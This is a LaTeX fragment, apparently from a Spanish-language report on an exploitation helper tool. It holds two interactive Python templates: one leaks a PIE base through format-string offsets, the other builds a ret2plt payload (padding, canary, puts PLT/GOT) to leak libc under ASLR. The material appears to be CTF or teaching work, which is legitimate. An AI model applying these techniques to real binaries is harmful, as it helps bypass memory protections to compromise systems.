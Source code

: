 \subsubsection{Plantilla de PIE sin leak automático}
\begin{lstlisting}[language=Python, caption=Plantilla PIE sin leak automático]
print("El binario tiene PIE, vamos a leakear la base!")
print("Para ello, vamos a hacer un poco de fuerza bruta sobre el format string, necesitamos recuperar un valor del formato 0x56XXXX o similar")
print("Introduce en el format string algo tal que así: " + "%p "* 7)
print("Has obtenido algún valor del stack? En caso de que no, intentalo con más offsets, por ejemplo %8$p, %9$p... ")
print("Una vez hayas conseguido un valor similar al stack, vamos a calcular el offset a la base!")
print("Para ello primero necesitas conocer la dirección de la base, puedes usar este comando: 'info proc mappings' y el start addr más bajo de tu binario será la base!")
base = int(input("Cual es la base del binario? "), 16)
stack_leak = int(input("Cual es el leak del stack que has conseguido? "), 16)
stack_leak_offset = int(input("En que offset estaba? Por ejemplo: %p %p %p -> 0x10 0xffXXXX 0x56XXXX sería el offset 3: "))
solver.set_elf_base(stack_leak, base)
print("Muy bien, así seras capaz de saber la base del binario y poder usar la GOT y PLT!")
\end{lstlisting}
\subsubsection{Plantilla ASLR sin leak autmático}
\begin{lstlisting}[language=Python, caption=Plantilla ASLR sin leak automático]
print("El binario tiene ASLR, vamos a leakear la dirección de LIBC!")
print("Para ello necesitas saber de una función de libc que esté en la GOT, por ejemplo, 'puts'. Puedes usar el comando: \"p 'puts@got.plt'\"")
print("Nos debería devolver su dirección, en caso de que sea así, podremos leakear su dirección de LIBC")
print("En caso de que no haya resultado, busca otra función en la GOT, puedes usar objdump sobre el binario y revisar la GOT y PLT en busca de funciones de LIBC")
print("Vamos a probar a generar el leak, para ello necesitas cambiar las funciones del exploit para que apunten a la función puts, returnen a la función explotable y por último como argumento le damos la función de puts")
print("Por ejemplo, AAAAAAAAA + canario + dirección PLT puts + dirección función explotable + dirección GOT puts, si tenemos los leaks de PIE o no hay PIE, podemos usar pwntools o esta misma clase")
print("El payload se va a escribir en un fichero llamado aslr_payload.txt")

with open("aslr_payload.txt", "wb") as f:
    f.write(solver.gen_payload_base())
    f.write(solver.leak_libc("__libc_start_main", leak_fn))
print("Hecho, intenta meter ese payload al binario y debería devolverte una dirección de memoria.")
leak_libc = int(input("Cual ha sido la dirección de memoria devuelta? "), 16)
solver.set_libc_base(leak_libc, "__libc_start_main")
\end{lstlisting}